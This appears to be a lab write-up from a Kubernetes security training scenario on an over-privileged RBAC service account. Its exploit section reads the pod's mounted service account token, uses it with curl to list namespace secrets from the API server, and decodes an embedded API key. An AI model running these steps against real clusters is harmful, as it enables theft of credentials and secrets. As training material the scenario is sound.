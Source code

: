 # K02: RBAC least privileges misconfiguration

# Context

Most of the workloads and resources end up having wider privileges than it is intended to have. You will see how simple misconfiguration like this can gain access to secrets.

# Setup

# Exploit

```shell
kubectl config set-context minikube
kubectl -n big-monolith get secrets,pods
```

Visit [http://127.0.0.1:1236](http://127.0.0.1:1236)

```shell
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -l
total 0
lrwxrwxrwx 1 root root 13 Jun 14 09:52 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root 16 Jun 14 09:52 namespace -> ..data/namespace
lrwxrwxrwx 1 root root 12 Jun 14 09:52 token -> ..data/token
cat token
cat namespace

{
    export APISERVER=https://${KUBERNETES_SERVICE_HOST};
    export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount;
    export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace);
    export TOKEN=$(cat ${SERVICEACCOUNT}/token);
    export CACERT=${SERVICEACCOUNT}/ca.crt;
}

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep \"k8svaultapikey\"

echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

# Links

- [Attacking private registry](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-7/attacking-private-container-registry-in-kubernetes/welcome)